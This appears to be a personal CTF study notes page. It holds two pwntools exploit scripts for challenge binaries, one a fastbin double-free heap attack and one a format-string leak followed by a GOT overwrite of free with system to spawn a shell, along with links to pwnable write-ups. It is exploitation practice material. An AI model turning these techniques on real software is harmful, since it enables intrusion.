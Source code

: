 # [0] Blogs
> Note for me.

# [1] Works...

[+] [Google Drive](https://drive.google.com/drive/folders/1Yd3RnKlJunSlAkmUS8o3cVPhGl3GtzmC?usp=share_link) .

[+] [Download folder from git](https://download-directory.github.io/) .

```python
#!/usr/bin/env python3
from pwn import *

# p = remote("chall.pwnable.tw", "10308")
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
gdb.attach(
    p,
    """
    breakrva 0x0E0E
    breakrva 0x0E1A
    """,
)

def Allocate(size, data):
    p.sendlineafter(b"You Choice:", b"1")
    p.sendlineafter(b"Size :", str(int(size)).encode())
    p.sendafter(b"Data :", data)    
    return

def Free(idx):
    p.sendlineafter(b"You Choice:", b"2")
    p.sendlineafter(b"Index :", str(idx).encode())
    return

# 2 | 2000 | +0x40
Allocate(0x60, p64(0) + p64(0x71))   # 0
Allocate(0x60, p64(0) + p64(0x51))   # 1
Allocate(0x60, p64(0) + p64(0x51))   # 2
Allocate(0x60, p64(0)*3 + p64(0x51)) # 3

Free(1)
Free(0)
Free(1)
# 0x00 + 0x10 = 
Allocate(0x60, b"\x10")
Allocate(0x60, b"a")     
Allocate(0x60, b"a")
Allocate(0x60, p64(0)*11 + p64(0x101))
pause()
Free(6)


p.interactive()
```

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
context.update(binary=elf, log_level="debug")
p = elf.process()
# gdb.attach(
#     p,
#     """
# 	breakrva 0x10AA
#     breakrva 0x10C2
#     breakrva 0x109E
#     breakrva 0x10B6
#     breakrva 0x0E2D
#     """,
# )
# D E N S printf
# p = remote("159.89.203.225", "10002")
# ATTT{e4sy_fmt_str_pa0}
def newNOTE(idx, size, content):
    p.sendlineafter(b"Choice >", b"N")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Size >", str(int(size)).encode())
    p.sendlineafter(b"Content >", content)    
    return

def deleteNOTE(idx):
    p.sendlineafter(b"Choice >", b"D")
    p.sendlineafter(b"Index >", str(idx).encode())
    return

def showNOTE(idx):
    p.sendlineafter(b"Choice >", b"S")
    p.sendlineafter(b"Index >", str(idx).encode())
    leak = p.recvuntil(b"\n")
    return leak

def editNOTE(idx, content):
    p.sendlineafter(b"Choice >", b"E")
    p.sendlineafter(b"Index >", str(idx).encode())
    p.sendlineafter(b"Content >", content)
    return


newNOTE(0, 0x200, b"%p-" * 20)
newNOTE(1, 0x100, b"B" * 8)
newNOTE(2, 0x100, b"/bin/sh\x00")
deleteNOTE(1)
leak = showNOTE(0)
leak = leak.split(b"-")
elf_leak = int(leak[10].decode(), 16)
libc_leak = int(leak[14].decode(), 16)
stack_ptr = int(leak[16].decode(), 16)

# 15 - libc | 11 - elf 
# 17 - 43
elf.address = elf_leak - 0x10bb
libc.address = libc_leak - 0x21bf7
rsp = stack_ptr - 0x128
log.info("ELF base address:             " + hex(elf.address))
log.info("Leak (__libc_start_main+231): " + hex(libc_leak))
log.info("Libc base address:            " + hex(libc.address))
log.info("rsp:                          " + hex(rsp))

# fix stack ptr
wr = (rsp + 0x68 + 2) & 0xffff
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

wr = wr - 2
log.info("wr: " + hex(wr))
pl = b""
pl += f"%{wr}c%17$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

# overwrite got free => libc system | para 19
tmp = libc.symbols['system']
tmp = tmp & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = elf.got['free']
tmp = (tmp + 2) & 0xffff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%43$hn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

tmp = libc.symbols['system']
tmp = tmp >> 16 & 0xff
log.info("tmp: " + hex(tmp))
pl = b""
pl += f"%{tmp}c%19$hhn\x00".encode()
editNOTE(0, pl)
showNOTE(0)

deleteNOTE(2)

p.interactive()

```

> Pwnable.tw

- https://www.taintedbits.com/tags/pwnable-tw/
- https://hackmd.io/@wxrdnx/r1CXaFHdv
- https://drx.home.blog/2019/04/20/pwnable-tw-hacknote/

> TetCTF
 
- `2019` https://d4rkn3ss.medium.com/write-up-for-pwnable-challenges-tetctf-2019-a74eb177518e

> ASCIS - SVATTT

- `2017` https://www.youtube.com/watch?v=_EJQKtpQ0oM
 

>Heap

  * `All view heap teachnique exploit` https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/
  
  * `Heap security check` https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks

> how2heap 

  * https://hackmd.io/@u1f383/Sy_2pqMAP


> listNOTE-PWNABLE

  * https://uaf.io/tags.html#BCTF-ref

### List video pwnable, exploit, security research, ...

* [BabyTalk#5](https://www.youtube.com/watch?v=94O8wdcvEFM&list=WL&index=249) .

--------------------------------------------------------------------------------


[+] OSCP - https://different-mosquito-965.notion.site/OSCP-ef04a657ca26423d81c1a1fc0b35e147

[+] Java - https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/
